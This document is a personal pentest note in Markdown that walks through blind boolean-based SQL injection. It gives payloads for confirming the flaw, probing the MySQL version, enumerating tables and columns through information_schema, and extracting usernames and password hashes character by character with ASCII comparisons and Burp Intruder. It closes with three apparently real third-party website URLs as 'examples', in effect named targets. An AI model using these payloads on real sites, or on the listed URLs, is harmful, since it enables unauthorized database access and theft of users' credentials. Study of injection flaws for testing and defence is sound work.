 # <mark style="background: #FF5582A6;">Prerequisite :</mark>
[[06-Limit (Method)]]
[[07-Like (Method)]]
Knowing How To Work With Burp Suite 
[[09-Version 4]]

# Description :
- In this method, nothing is printed on the site page.
- No result is displayed on the site page.
- This method works based on conditional commands, That is based on the site is loaded or not, or the site gives an error or not.

# How To Do :
## Step 1 :

with this command code, The site should be loaded :
- <mark style="background: #FFB86CA6;">and 1=1-- Or and true--</mark> 

with this command code, The site shouldn't be loaded.
- <mark style="background: #FFB86CA6;">and 1=2-- Or and false--</mark> 

<mark style="background: #FF5582A6;">In other words, the result of these two commands must be different to confirm the possibility of this vulnerability.</mark> 

## Step 2 :

- <mark style="background: #FFB86CA6;">and substring(@@version,1,1)=4/5/8/1</mark> 

With this command, we intend to find out the version of the site. In this way, when the site is loaded with any of the above numbers (4,5,8,10), that number is the first character of the site version and we understand the version of the target site.
<mark style="background: #FF5582A6;">(With this step, we make sure that the desired site has this vulnerability)</mark> 

## Step 3 :

At this step, we need to find the name of the important table.

1. Guess the name of the important table :
	- Our own guess instead of x :

- <mark style="background: #FFB86CA6;">and (select 1 from x limit 0,1)=1--</mark> 

	- Using Burp Suite similar to [[09-Version 4]] :

- <mark style="background: #FFB86CA6;">and (select 1 from x limit 0,1)=1--</mark> 

- <mark style="background: #FF5582A6;">Important Point :</mark> 
	we use Burp Suite for to guess the important table as follows :
	1. in the first step, we put <mark style="background: #FF5582A6;">aaaa</mark> instead of <mark style="background: #FF5582A6;">x</mark> and run it in Burp Suite.
	2. from the proxy section, right-click and click : <mark style="background: #FF5582A6;">send to intruder</mark> .
	3. first of all, click <mark style="background: #FF5582A6;">clear</mark> and <mark style="background: #FF5582A6;">select aaaa</mark> and click <mark style="background: #FF5582A6;">add</mark> .
	4. <mark style="background: #FF5582A6;">payload</mark> section ---> the <mark style="background: #FF5582A6;">set</mark> part should be on <mark style="background: #FF5582A6;">1</mark> and the <mark style="background: #FF5582A6;">type</mark> part should be on <mark style="background: #FF5582A6;">runtime file</mark> .
	5. we give it <mark style="background: #FF5582A6;">the list of tables</mark> we have.
	   (E: \ PEDRAM \ Web Pentest \ Tables (Burp Suite).txt) or [[17-Tables (Burp Suite)]]
	6. click <mark style="background: #FF5582A6;">START</mark> .
	7. our answer is the word that the <mark style="background: #FF5582A6;">length has more than other</mark> .
	   (7000s are errors)

2. The combined method of [[07-Like (Method)]] and [[02-Sql Injection (Basic)]] and blind :

- <mark style="background: #FFB86CA6;">and ascii(substring((select table_name from information_schema.columns where column_name like '%pas%' limit 0,1),1,1))>100--</mark> 

	### <mark style="background: #FF5582A6;">Point 1 :</mark> 
	'%pas%' must be hexed. the %pas% is hexed = <mark style="background: #FF5582A6;">0x2570617325</mark> )

	### <mark style="background: #FF5582A6;">Point 2 :</mark> 
	Like method searches all databases of the site to find the important table, So in the last step, if the important table isn't from the default database, <mark style="background: #FF5582A6;">The name of the database in which the table existed must be written before the important table.</mark> 

	### <mark style="background: #FF5582A6;">Point 3 :</mark> 
	Command code to find site databases :

	- <mark style="background: #FFB86CA6;">and ascii(substring((select schema_name from information_schema.schemata limit 1,1),1,1))>100-- </mark> 

3. Using Python codes written for this :

- <mark style="background: #FF5582A6;">E:\PEDRAM\Web Pentest\13-blind.py</mark> 
- <mark style="background: #FF5582A6;">for start, in cmd type : python 13-blind.py</mark> 

4. If the above three methods don't work, we will use this command code :

- <mark style="background: #FFB86CA6;">and ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>A--</mark> 


	### <mark style="background: #FF5582A6;">Full explanation about the use of limit in this method :</mark> 
	
<mark style="background: #FF5582A6;">	The first limit in the above codes is the first table or the first column of the site.
	The second limit is to display one by one the characters of that table or column.
	So first, we increase the number on the left side of the second limit, and when we know the full name of the first table or column, we add a number to the number on the left side of the first limit and repeat the previous work.
	in this way, we extract the names of tables or columns of the site one by one.</mark> 


  - <mark style="background: #FF5582A6;">Explanation for the ascii and the ">number" at the end of the command :</mark> 

<mark style="background: #FF5582A6;">	We want to convert the first character we get, into the ascii code, To compare this number with another number at the end of our code and finally, convert the confirmed number into English letters and special characters.
	(for example : a=97 or b=98 or c=99).
	We compare the converted ascii code with the last number of our command.
	First, we get a range between the number of the character we want, and then when we find the number, we put = instead of > to make sure that the site will be loaded with this number.
	When the site is loaded correctly, we convert the found number into letters or special characters and with this we have obtained one of the characters of the tables or columns of the site. </mark> 

## Step 4 :

1. Guess the name of the important column :
   the name of the important column like :
   - user
   - username
   - login
   - password
   - passwd
   - pass
   - and etc

   - Our own guess instead of y :
   
	- <mark style="background: #FFB86CA6;">and (select substring(concat(1,y),1,1) from 'important table' limit 0,1)=1-- </mark> 

   - Using Burp Suite similar to [[09-Version 4]] :

	- <mark style="background: #FFB86CA6;">and (select substring(concat(1,y),1,1) from 'important table' limit 0,1)=1--</mark> 
	
	- <mark style="background: #FF5582A6;">we use Burp Suite for to guess the important columns as explained in the important point of the above step</mark> 

2. if the above methods don't work, we will use this command code :

      - <mark style="background: #FFB86CA6;">and ascii(substring((select column_name from information_schema.columns where table_name='important table' limit 0,1),1,1))>97--</mark> 

## Step 5 :

extract information :

- <mark style="background: #FFB86CA6;">and ascii(substring((select concat(important column) from important table limit 0,1),1,1))>A</mark> 

When we found the important table and column. We use Burp Suite for convenience and high speed in doing our work as follows :

  1. in the first step, we put =1 instead of >A at the of code to find out if the table we found is in the default database or not? (because Like method searches all databases of the site to find the important table, So in the last step, if the important table isn't from the default database, <mark style="background: #FF5582A6;">The name of the database in which the table existed must be written before the important table.</mark> )
  2. from the proxy section, right-click and click : send to intruder .
  3. first of all, click clear and select =1 and write =100 and select it and click add .
  4. payload section ---> the set part should be on 1 and the type part should be on numbers .
  5. from 25 to 127 or from 90 to 127
  6. click START .
  7. our answer is the word that the length has more than other .
	   (7000s are errors)
  8. We increase the number on the left side of the second limit one by one to get all the characters of the user or password.
     (For example, if the password is a md5 hash, we need to get 32 characters with Burp Suite.)

# Example :
1. https://www.asteria.ru/en/news/news.php?news_id=448
2. https://dovermainstreet.org/program.php?id=6
3. http://www.galeriemolinas.com/artist.php?id=125